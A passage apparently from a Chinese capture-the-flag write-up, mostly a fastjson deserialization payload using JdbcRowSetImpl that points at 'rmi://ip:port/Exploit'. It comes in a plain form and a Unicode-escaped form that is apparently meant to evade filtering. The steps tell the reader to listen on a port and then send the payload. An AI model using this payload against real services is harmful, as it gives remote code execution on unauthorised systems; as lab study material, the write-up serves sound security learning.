 再起监听端口

最后打payload

```json
roleJson= {
	"e":
	{
		"@type":"java.lang.Class",
		"val":"com.sun.rowset.JdbcRowSetImpl"
	},
	"name":
	{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"rmi://ip:port/Exploit",
		"autoCommit":true
	}
};// 需要Unicode编码
```



![image-20210315140159832](VN2021/image-20210315140159832.png)

```json
roleJson= {
	"e":
	{
		"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073",
		"val":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"
	},
	"name":
	{
		"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c",
		"dataSourceName":"rmi://ip:port/Exploit",
		"\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true
	}
};
```